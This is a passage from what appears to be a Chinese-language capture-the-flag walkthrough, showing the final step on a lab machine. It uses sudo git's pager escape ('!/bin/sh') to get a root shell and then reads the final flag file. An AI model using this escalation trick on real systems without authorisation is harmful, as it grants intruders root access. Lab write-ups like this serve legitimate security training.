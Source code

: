 这里提到了 git,那么就用它提权

---

# flag5


```bash
sudo git -p help config
!/bin/sh
```




```bash
cd
cat final-flag.txt
```

```
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

